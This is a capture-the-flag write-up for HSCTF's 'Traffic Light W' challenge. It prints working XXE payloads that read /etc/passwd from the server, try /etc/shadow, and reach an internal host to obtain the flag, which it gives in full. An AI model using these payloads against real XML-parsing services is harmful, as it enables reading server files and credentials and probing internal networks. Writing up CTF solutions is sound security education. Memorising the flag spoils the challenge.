


## Problem
```
🚦Can you figure out what's going on with this shady company?

https://traffic-light-w.web.hsctf.com/

Author: meow
```

## Solution
Visiting the webpage brings us to the dashboard of Shady Traffic Light Company. We are shown an seemingly meaningless [graph](./files/traffic-graph.png) and the status of five traffic lights:



We note that two of the five traffic lights are online, that the lights seem to run on Docker (```Docker Hostname``` is one of the table headers), and that there is a button to upload firmware to the traffic lights.

Trying to upload to Traffic Light 1004 gives us an error:
```
1004
Error: High CPU Usage
```

However, Traffic Light 1001 seems to work. We are greeted with a page to upload our XML firmware:



There is a provided example, with the following script:
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<root>
  <content>Red</content>
</root>
```

Running the example displays the word ```Red```, so the traffic light seems to parse and run our given XML input. We most likely need to run an XXE (XML External Entity) attack for LFI (Local File Inclusion), to access files stored on the server that we would unable to access otherwise.

We can create a payload that attempts to access ```/etc/passwd``` to see if XXE works:
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<root>
    <content>&xxe;</content>
</root>
```

The page displays ```/etc/passwd```, confirming that XXE is possible:
![root:x:0:0:root:/root:/bin/ash bin:x:1:1:bin:/bin:/sbin/nologin daemon:x:2:2:daemon:/sbin:/sbin/nologin adm:x:3:4:adm:/var/adm:/sbin/nologin lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin sync:x:5:0:sync:/sbin:/bin/sync shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown halt:x:7:0:halt:/sbin:/sbin/halt mail:x:8:12:mail:/var/mail:/sbin/nologin news:x:9:13:news:/usr/lib/news:/sbin/nologin uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin operator:x:11:0:operator:/root:/sbin/nologin man:x:13:15:man:/usr/man:/sbin/nologin postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin cron:x:16:16:cron:/var/spool/cron:/sbin/nologin ftp:x:21:21::/var/lib/ftp:/sbin/nologin sshd:x:22:22:sshd:/dev/null:/sbin/nologin at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin games:x:35:35:games:/usr/games:/sbin/nologin cyrus:x:85:12::/usr/cyrus:/sbin/nologin vpopmail:x:89:89::/var/vpopmail:/sbin/nologin ntp:x:123:123:NTP:/var/empty:/sbin/nologin smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin guest:x:405:100:guest:/dev/null:/sbin/nologin nobody:x:65534:65534:nobody:/:/sbin/nologin nginx:x:100:101:nginx:/var/lib/nginx:/sbin/nologin](./files/xxe-result.png)

Nothing stands out as a flag, so we can try a few other files, such as ```/etc/shadow```. This would normally store encrypted user credentials. Modifying our payload to access ```file:///etc/shadow``` yields no response, so the file is read protected. Going back to the list of traffic lights, there was a second traffic light with the hostname of ```traffic-light-1004``` which we were unable to upload firmware to. The port is also port ``80``, which is commonly used for HTTP. Perhaps we could try accessing that:
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://traffic-light-1004">]>
<root>
<content>&xxe;</content>
</root>
```

This payload was successful, and we get the following message:
```
If you're reading this... You found out that the traffic lights are fake. Don't tell anyone. Here's a flag to make you happy: flag{shh_im_mining_bitcoin} 
```

**Flag:** ```flag{shh_im_mining_bitcoin} ```
